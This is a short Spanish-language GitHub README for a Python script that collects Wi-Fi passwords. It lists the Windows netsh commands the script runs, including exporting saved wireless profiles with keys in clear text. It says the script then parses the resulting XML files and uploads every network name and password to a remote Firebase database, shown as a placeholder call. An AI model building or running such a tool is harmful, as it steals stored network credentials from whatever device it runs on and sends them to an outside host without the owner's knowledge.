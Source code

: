 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
```
```
netsh wlan show networks
```
```
netsh wlan export profile key=clear
```


Lo que deja ver las **redes wifi _guardadas en el dispositivo_ en el que se ejecuta el programa**.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('DATABASE URL')
```
### Ejemplo:
```python
db = firebase.FirebaseApplication('DATABASE URL')
```
